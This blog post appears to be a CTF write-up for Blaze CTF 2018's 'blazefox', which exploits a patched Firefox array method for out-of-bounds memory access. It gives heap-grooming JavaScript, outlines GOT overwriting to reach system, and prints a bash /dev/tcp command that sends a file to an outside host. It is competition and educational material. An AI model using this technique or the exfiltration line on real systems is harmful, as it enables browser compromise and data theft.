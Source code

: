 ```yaml
---
layout: post
title: blazefox - Blaze CTF 2018
date: '2018-04-27 19:00:00'
---
```


> No one gave us a firefox 0day last year, so we'll make it a little easier for you this time.
> 
> nc blazefox.420blaze.in 1337
> 
> [blaze patch and instructions for rolling](https://github.com/vakzz/ctfs/raw/master/Blaze2018/blazefox/blaze_firefox_small.tar.gz)
> 
> also smoke this [fully built binary](https://s3.us-east-2.amazonaws.com/blazefox/blazefox/blaze_firefox_dist_large.tar.gz) (600 MB)
> 
> Author : itsZN


*420 points, 9 Solves, pwn*

We are given a nigthly version of firefox that has been patched to add a new function to arrays called `blaze`, which modifies the capacity of the array to be 420 without acutally updating the underlying storage. This allows us to read and write to arbitrary data that is located just after the array.

I relied heavily on  [Share with care: Exploiting a Firefox UAF with shared array buffers](https://phoenhex.re/2017-06-21/firefox-structuredclone-refleak#turning-a-use-after-free-into-a-readwrite-primitive) for this challenge.

The general idea was to allocate an `Array` followed by two small `ArrayBuffer`s (so that they have their data inline) and use the `blaze` method on the inital array to access and modify the length of the first `ArrayBuffer`. By placing a magic value in the second `ArrayBuffer`, we can locate the index of this, and then work backwards to change the header allowing us to read/write to anywhere.

```javascript
arr = [0x11223344];

ab = new ArrayBuffer(32);
overwrite_len = new Uint32Array(ab);
overwrite_len[0] = 0x77777777;

victim_ab = new ArrayBuffer(32);
victim = new Uint32Array(victim_ab);
victim[0] = 0x88888888;
```

Looking for `0x11223344` in gdb shows finds two locations, and examining the second one shows us what we are after: 

![gdb](/assets/blaze18/firefox_gdb.jpg)

We can see the size `0xfff8800000000008` that we want to modify, which we can do by calling `arr.blaze()` then setting `arr[7] = 0x10000;`.  This allows us to iterate through the first array buffer and find the contents of the second array buffer.

![gdb](/assets/blaze18/firefox_gdb2.jpg)

The memory location of the second array buffer is at `0x00007f89218d60c0` but shifted to the right by one, so shifting` 0x00003fc490c6b070<<1 == 0x7f89218d60e0` which is where we can see `0x88888888`.

We can now modify this value to any address we want (right shifted) using the first array buffer, then use the second array buffer to read or write to the new arbitary address.

The next part of the exploit was taken straight from <https://github.com/phoenhex/files/blob/master/exploits/share-with-care/exploit.js> with just changing a few offsets. The basic idea was to leak a native function `Date.now` and calculate the base address of libxul.so, then leak a GOT entry and calculate the base address of libc and then have `system`. We then overwrite the `memmove` got with system and trigger a copy with our payload to copy the flag `bash -ic 'cat /flag > /dev/tcp/my.host/12345' &`

`flag{fire_just_makes_the_blaze_better}`

[Full exploit code here.](https://github.com/vakzz/ctfs/blob/master/Blaze2018/blazefox/exploit.html)
